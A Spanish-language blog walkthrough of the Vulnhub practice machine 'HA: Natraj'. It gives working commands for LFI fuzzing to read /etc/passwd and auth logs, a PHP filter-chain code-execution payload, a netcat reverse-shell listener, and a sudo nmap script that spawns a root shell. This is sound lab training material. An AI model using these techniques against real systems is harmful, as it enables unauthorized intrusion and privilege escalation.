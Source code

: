 ```yaml
---
title: "HA: Natraj - Vulnhub"
layout: post
date: 2024-01-22 15:10
tags:
  - Vulnhub
  - Natraj
  - LFI
  - Log
  - Poisoning
  - PHP
  - RCE
  - Apache
  - abusing
  - Nmap
  - PrivEsc
image: /assets/images/vulnhub/Natraj/natraj.jpeg
headerImage: true
projects: false
hidden: false
description: Natraj - Vunlhub
category: blog
author: CAHOn3R
externalLink: false
---
```


# Enumeración
Como siempre que hacemos una máquina que estamos corriendo en local empezamos con **arp-scan** para detectar la **IP**.
```bash
arp-scan -I eth0 --localnet --ignoredups

192.168.0.32	00:0c:29:3f:59:d9	VMware, Inc.
```

Tenemos **IP**, vamos con el escaneo de puertos mediante **nmap**.
```bash
nmap -p- -sS --min-rate 5000 --open -n -Pn -oG allPorts 192.168.0.32

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http

-p- # para escanear los 65535 puertos que existen
-sS # para realizar un escaneo tipo "SYN scan"
--min-rate 5000 # para indicarle no se envien menos de 5k paquetes por segundo
--open # para que solo reporte puertos abiertos
-vvv # para que muestre por consola lo máximo posible y lo antes posible
-n # para realizar un escaneo prescindiendo de la resolución de nombres de dominio
-Pn # para que no realice la detección del estado del host antes de iniciar el escaneo
-oG # para especificar un formato de salida en modo greppable en el archivo allPorts
```

Lanzamos los scripts básicos de reconocimiento para ver que versiones y servicios corren para estos puertos.
```bash
nmap -sCV -p 22,25,80,139,445 192.168.0.11 -oN targeted
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:9f:da:f4:2e:67:01:92:d5:da:7f:70:d0:06:b3:92 (RSA)
|   256 bc:ea:f1:3b:fa:7c:05:0c:92:95:92:e9:e7:d2:07:71 (ECDSA)
|_  256 f0:24:5b:7a:3b:d6:b7:94:c4:4b:fe:57:21:f8:00:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA:Natraj
MAC Address: 00:0C:29:F7:0C:77 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que en el puerto 80 está corriendo un servidor web con Apache y en el 22 SSH, lo normal. Así que empiezo con el escaneo de directorios, esta vez con **Feroxbuster**, por cambiar...

[<img src="/assets/images/vulnhub/Natraj/captura1.png">](/assets/images/vulnhub/Natraj/captura1.png)

Hay algo que llama especialmente mi atención, un directorio "console" y un archivo **PHP**, nada más verlo pienso que puede ser un **web-shell**, y pruebo cosas como estas:
```bash
http://192.168.0.32/console/file.php?cmd=id
http://192.168.0.32/console/file.php?0=id
http://192.168.0.32/console/file.php?web=id
http://192.168.0.32/console/file.php?c=id
```

Al no resultar pruebo a **fuzzear** el parámetro con **wfuzz**.
```bash
❯ wfuzz -c -t 200 --hc 403 --hl 0 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://192.168.0.32/console/file.php?FUZZ=/etc/passwd'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.0.32/console/file.php?FUZZ=/etc/passwd
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                       
=====================================================================

000000312:   200        27 L     35 W       1398 Ch     "file"                
```
_Realmente esta parte la saqué con guessing, me pareció algo obvio, pero prefiero explicar como se podría haber hecho._

Una vez descubierto este parámetro me puse a buscar archivos que me permitan ganar acceso al sistema como un id_rsa por ejemplo, pero no era el caso. Lo siguiente que se me ocurrió fue buscar logs, ya que tenemos el puerto 22(SSH) abierto, así que fuzzee rutas de logs.
```bash
❯ gobuster fuzz -t 200 -w /usr/share/wordlists/Logs-wordlist.txt -u 'http://192.168.0.32/console/file.php?file=FUZZ' -b 301,400 --exclude-length 0
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.32/console/file.php?file=FUZZ
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/Logs-wordlist.txt
[+] Excluded Status codes:   301,400
[+] Exclude Length:          0
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=41879] [Word=/var/log/auth.log] http://192.168.0.32/console/file.php?file=/var/log/auth.log

===============================================================
Finished
===============================================================

```

# Explotación

Vemos un archivo con logs del servicio SSH, automáticamente me viene a la cabeza **logpoisoning**, pero me encuentro con una barrea, una barrera que nunca me había surgido y es mi propio sistema, yo he explotado bastantes veces **logpoisoning**, pero esta vez, no se si por la versión de **SSH** que es más reciente o porque, no podía mandar el código **PHP** mediante el user de SSH y que me lo interpretara la web, así que busque otra opción...

[<img src="/assets/images/vulnhub/Natraj/captura2.png">](/assets/images/vulnhub/Natraj/captura2.png)

La práctica me dice que puedo mediante el usuario de **SSH** ejecutar código **PHP** en el servidor web, ya que me lo debería interpretar la web, pero mi propio **SSH** no me permite mandar caracteres especiales como nombre de usuario.
```bash
❯ ssh "<?php system('whoami'); ?>"@192.168.0.32
remote username contains invalid characters
```

Así que se me ocurre volver a abusar del **php_filter_chain_generator.py** como en la máquina [Symfonos1](https://cahon3r.github.io//Symfonos1-Vulnhub/).

Capturamos la petición con **burpsuite**, lo mandamos al **repeater** y, por otro lado, generamos el código.
```bash
python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`; ?>'
```
_La idea es generar un código lo más corto posible que nos permita ejecutar comandos, si es demasiado largo el output que nos genera el script, el servidor web lo rechazara._

El output que nos genera lo utilizamos de la siguiente forma y nos entablamos una **reverse shell** con bash por ejemplo:

[<img src="/assets/images/vulnhub/Natraj/captura3.png">](/assets/images/vulnhub/Natraj/captura3.png)
_Utilizamos el símbolo "&" antes del parámetro 0 por qué ya hay un "?" en la URL_

Nos ponemos en escucha con **Netcat** en el puerto 443 y entablamos la reverse shell.

```bash
nc -nlvp 443
```

De este modo estamos dentro de la máquina como **www-data**.

# PrivEsc

Una vez dentro de la máquina víctima enumero con **LinPeas** y encuentro el archivo de configuración de **apache** con el cual podemos hacer que el servidor web se ejecute como otro usuario que no sea **www-data**.
[<img src="/assets/images/vulnhub/Natraj/captura4.png">](/assets/images/vulnhub/Natraj/captura4.png)

Procedo a abrir el archivo con **nano** y a modificar la parte que se encarga de establecer un usuario al servicio.
```bash
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}
Group ${APACHE_RUN_GROUP}
```

Esto lo sustituimos por uno de los usuarios que encontramos a nivel de sistema.
```bash
# These need to be set in /etc/apache2/envvars
User mahakal           
Group mahakal           
```

Ahora reiniciamos el servicio y se debería ejecutar como el usuario **mahakal**, procedemos a volver a lanzar la reverse shell que tenemos en el **repeater** de **Burpsuite** y esta vez ganamos acceso como **mahakal**.

Ahora siendo **mahakal** hacemos **sudo -l** y vemos que podemos ejecutar **nmap** como el usuario **root** sin proporcionar contraseña.
```bash
mahakal@ubuntu:/var/www/html/console$ sudo -l
sudo -l
Matching Defaults entries for mahakal on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mahakal may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/nmap
```

Nos vamos a [gtfobins](https://gtfobins.github.io/gtfobins/nmap/#sudo) y vemos que con sudo ejecutando los siguientes comandos podemos escalar privilegios.
```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

Lo pegamos y ya somos **root**.
